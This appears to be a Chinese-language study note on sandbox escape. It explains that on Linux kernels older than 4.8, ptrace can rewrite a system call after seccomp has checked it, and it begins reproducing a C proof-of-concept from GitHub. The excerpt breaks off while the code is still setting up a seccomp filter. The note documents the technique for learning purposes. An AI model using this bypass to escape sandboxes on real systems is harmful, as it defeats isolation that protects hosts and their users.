 ```yaml
---
title: 沙盒绕过
date: '2025-07-29 15:27:36'
updated: '2025-07-29 17:59:45'
---
```

## ptrace 绕过 seccomp
linux内核版本4.8以下，syscall-->seccomp-->ptrace

linux内核版本4.8以上，syscall-->ptrace-->seccomp

也就是说linux内核版本4.8以上，通过ptrace修改完syscall之后，还是会交给seccomp检查

<font style="background-color:#FBDE28;">4.8以下</font>的话就可以在 seccomp 检查完之后再用 ptrace 把系统调用改成目标系统调用

[github](https://gist.github.com/thejh/8346f47e359adecd1d53) 上面找到的 PoC：

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>
#include <signal.h>
#include <errno.h>
#include <fcntl.h>
#include <stddef.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/user.h>
#include <sys/prctl.h>
#include <sys/wait.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>

static long forbidden_syscalls[] = {
  // yeah, not really exhaustive or sensible, but enough for demo purposes
  SYS_open, SYS_openat, SYS_creat
};
#define forbidden_syscalls_len ((sizeof(forbidden_syscalls)/sizeof(forbidden_syscalls[0])))

int main(void) {
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  assert(prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == 0);

  struct sock_filter instrs[forbidden_syscalls_len+5];
  #define NUM_INSTRS (sizeof(instrs) / sizeof(instrs[0]))
  #define FAIL_IDX (NUM_INSTRS-1)
  #define ACCEPT_IDX (NUM_INSTRS-2)
  instrs[0] = (struct sock_filter)BPF_STMT(BPF_LD | BPF_W | BPF_ABS, offsetof(struct seccomp_data, arch));
  unsigned int my_arch =
      #ifdef __x86_64__
        AUDIT_ARCH_X86_64
      #else
        #error unknown architecture
      #endif
      ;
  instrs[1] = (struct sock_filter)BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, my_arch, 0, FAIL_IDX-(1+1));
  instrs[2] = (struct sock_filter)BPF_STMT(BPF_LD | BPF_W | BPF_ABS, offsetof(struct seccomp_data, nr));
```